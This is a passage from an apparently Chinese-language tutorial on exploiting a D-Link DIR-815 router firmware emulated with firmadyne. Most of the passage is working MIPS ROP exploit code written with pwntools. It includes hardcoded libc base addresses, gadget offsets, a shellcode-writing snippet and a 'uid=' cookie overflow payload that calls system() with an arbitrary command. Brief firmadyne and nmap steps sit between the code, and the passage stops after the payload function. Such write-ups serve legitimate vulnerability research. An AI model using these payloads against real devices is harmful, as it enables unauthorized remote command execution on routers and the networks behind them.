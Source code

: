 ```
data += "bbbb" #s0
data += p32(libc_base+gadget4) #s1
data += "bbbb" #s2
data += p32(libc_base+gadget3) #ra
data += "c"*0x18
data += shellcode 
f=open("content","wb")
f.write(data)
f.close()
```

执行的结果如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e003c9e995e9fc43.png)

##### <a class="reference-link" name="firmadyne%E6%A8%A1%E6%8B%9F"></a>firmadyne模拟

接下来，介绍一下firmadyne的模拟。根据上面，我们已经把firmadyne安装完毕，接下来，我们将固件放在同目录下，然后执行：

```
python fat.py
```

然后输入dir815_v1.00_a86b.bin，还有dlink，接下来，就等待着这个固件的模拟，出现如下的情景，就可以

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01588d8cb43728f154.png)

然后我们通过nmap扫描的话，可以出现下面的场景：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01358ebf03d2aa3267.png)

然后，我们依然用两种方式来展示我们的exp。

1）system的方式：

脚本如下：

```
from pwn import *
import requests
import sys
def get_payload(offset,cmd):
    #libc_base = 0x77f34000
    libc_base = 0x2aaf8000
    system_offset = 0x53200-1
    gadget1 = 0x159cc
    gadget2 = 0x000158C8
    data = "uid=1234"
    data += "a"*offset
    data += p32(libc_base+system_offset) #s0
    data += "aaaa" #s1
    data += "aaaa" #s2
    data += "aaaa" #s3
    data += "aaaa" #s4
    data += p32(libc_base+gadget1) #s5
    data += "aaaa" #s6
    data += "aaaa" #s7
    data += "aaaa" #gp
    data += p32(libc_base+gadget2) #ra
    data += "b"*0x10
    data += cmd
    return data
```